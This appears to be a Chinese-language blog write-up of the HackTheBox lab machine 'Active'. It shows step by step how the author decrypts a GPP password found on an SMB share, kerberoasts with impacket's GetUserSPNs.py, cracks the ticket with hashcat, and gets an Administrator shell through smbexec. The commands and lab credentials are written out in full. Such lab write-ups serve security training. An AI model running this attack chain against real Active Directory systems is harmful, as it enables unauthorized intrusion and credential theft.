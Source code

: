 +++
ShowToc = true
TocOpen = true
title = '0X012 Active'
date = 2024-10-11T14:25:59+08:00
draft = false
private = true
show_reading_time = true
categories = 'HTB'
+++



# 端口扫描

![](/htb_img/WEBRESOURCE2b79f81f1e994947facb32e1d33427b9image.png)

![](/htb_img/WEBRESOURCE57929fea3eb2c20e9a81cb222fdc2be2image.png)

# 获取立足点

开始思考，从哪儿开始看起呢？还是smba吧：

![](/htb_img/WEBRESOURCEe2ba0e29d1b9dba9ac848bc79d363f4dimage.png)

用smbclient简单看了一下，内容好像有点多，但是挂载到本地失败了，只能慢慢看了：

里面其实有东西的目录，应该就是这个目录了：

![](/htb_img/WEBRESOURCE929b2ab801ddc22197d678d5b7b5f4c3image.png)

问了一下GPT，大概知道是用来记录组策略的，但是不知道有什么用：

![](/htb_img/WEBRESOURCE87ab11f980a529d243a7b64203c532cfimage.png)

发现疑似账号密码：

![](/htb_img/WEBRESOURCEd7d244a94d67021c2c41a4546cb9562eimage.png)

这里其实是我的思考不够，其实我是知道这是普通账户，但是目标主机是域控的，但是我对这方面的知识不自信导致，我一直在尝试，通过这个账号密码来获取shell，并且这里的密码是加密的，需要解密：

gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ

密码为：GPPstillStandingStrong2k18

![](/htb_img/WEBRESOURCE9bedd112f49203bcdfaa39d7ab9e3eb4image.png)

使用该凭证再次登录smb:

![](/htb_img/WEBRESOURCE440f4d2843d061cfa22720a98c061501image.png)

![](/htb_img/WEBRESOURCE08147a54fd1836d6a1164e3cc671b872image.png)

登录后发现flag:

![](/htb_img/WEBRESOURCE537bd27ee83c3e4a88037526309a618aimage.png)

# 提权

我尝试使用该凭证进行登录获取shell，但是发现都失败了，rpc拒绝或者相关smb目录没有写入权限；

![](/htb_img/WEBRESOURCE21b1337ec915a036acf313ff94cfe1e7image.png)

尝试获取其他立足点，其实我感觉这一步更像是域内提权枚举：

# kerberoasting

使用GetUserSPNs.py查询所有注册于用户下的spn:

python GetUserSPNs.py -dc-ip 10.10.10.100 active.htb/SVC_TGS:GPPstillStandingStrong2k18

![](/htb_img/WEBRESOURCEd4ea9064ac216fbdda4e886205dc6e25image.png)

获取ST，保存为hashcat能爆破的格式：

python /home/kali/Desktop/HTB/impacket/examples/GetUserSPNs.py -dc-ip 10.10.10.100 active.htb/SVC_TGS:GPPstillStandingStrong2k18 -request -outputfile hash.txt

![](/htb_img/WEBRESOURCE88b2ee81d90310dae17659e624785e0aimage.png)

爆破：

hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt --force

Ticketmaster1968

![](/htb_img/WEBRESOURCE5b8fa2eeaa852240dda639d8e2f24790image.png)

smbexec:

python /usr/share/doc/python3-impacket/examples/smbexec.py active.htb/Administrator:Ticketmaster1968@10.10.10.100

![](/htb_img/WEBRESOURCEa5a3cf96a5145e1b772d8e1833e034b1image.png)

2ad2d3d25064e6511303bc5a1bb40ac4

![](/htb_img/WEBRESOURCEec1777129985a3276298ae0bd26f2258image.png)
